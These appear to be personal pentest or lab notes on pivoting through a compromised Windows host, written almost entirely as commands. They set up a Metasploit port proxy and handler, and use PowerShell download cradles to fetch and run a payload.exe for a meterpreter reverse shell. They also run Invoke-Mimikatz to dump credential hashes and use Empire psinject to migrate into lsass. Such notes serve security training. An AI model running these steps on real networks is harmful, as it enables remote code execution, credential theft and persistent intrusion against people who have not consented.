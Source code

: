 ### lets add another port in the portproxy
use post/windows/manage/portproxy
```powershell
set CONNECT_ADDRESS <kali ip>
set CONNECT_PORT 8000
set LOCAL_ADDRESS 10.100.11.101 = its the first host we compromise.
set LOCAL_PORT 8000
set session 1
run
```

> [!NOTE] cool

### set a handler
```powershell
jobs -K = to kill all jobs opens
use exploit/multi/handler
set options
set lport 4444 = the port that we opened with portproxy
exploit -j
```

in the Java shell:
```powershell
powershell -c iex (New-Object Net.WebClient).DownloadFile('http://10.100.11.101:8000/payload.exe', 'C:\Windows\Temp\payload.exe')
```

// then execute it
	C:\windows\temp\payload.exe

> we should gain a shell back from meterpreter from our handler

### Obtain Hashes using Mimikatz

in Java session:
```powershell
	powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.100.11.101:8000/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

> of course, make sure the **Invoke-Mimikatz** is in the python web host directory.
this cradle will download and execute the Invoke-Mimikatz
we should get hashes back

### Extra [+]  PSINJECT

// PSINJECT is the same as migrate from metasploit but its from Empire
```powershell
interact <agent number>
shell ps

searchmodule psinject
usemodule management/psinject
set Agent <agent number>
set Listener http
set ProcId <the PID from the process you wanna migrate, in this case lsass>
execute
```
